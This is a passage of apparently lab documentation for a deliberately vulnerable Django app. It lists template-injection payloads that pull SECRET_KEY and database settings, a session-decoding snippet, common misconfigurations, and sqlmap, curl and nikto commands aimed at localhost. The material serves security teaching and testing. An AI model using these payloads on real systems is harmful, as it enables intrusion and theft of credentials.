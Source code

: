 ### Session Hijacking
```python
# Decode session
import base64
session_data = "eyJ1c2VyX2lkIjoxfQ:1234567:abcdef"
decoded = base64.b64decode(session_data.split(':')[0])
```

### Settings Extraction
```python
# From template injection
{{ settings }}
{{ settings.DATABASES }}
{{ settings.SECRET_KEY }}
```

## Common Misconfigurations

1. **DEBUG = True** in production
2. **ALLOWED_HOSTS = ['*']** - Allows any host
3. **No HTTPS enforcement** - SECURE_SSL_REDIRECT = False
4. **Weak SECRET_KEY** - Default or predictable
5. **Database credentials in settings.py** - Not using environment variables
6. **CORS_ORIGIN_ALLOW_ALL = True** - Allows any origin
7. **No rate limiting** - Allows brute force

## Defense Mechanisms (What's Missing)
- ❌ Input validation and sanitization
- ❌ Parameterized queries
- ❌ CSRF protection enabled
- ❌ Secure session configuration
- ❌ Content Security Policy
- ❌ Rate limiting
- ❌ Secure file upload validation
- ❌ Proper authentication decorators

## Testing Commands

```bash
# Check for SQL injection
sqlmap -u "http://localhost:8093/search?name=test" --batch

# Template injection test
curl "http://localhost:8093/render?template={{7*7}}"

# Check security headers
curl -I http://localhost:8093

# Scan with nikto
nikto -h http://localhost:8093
```
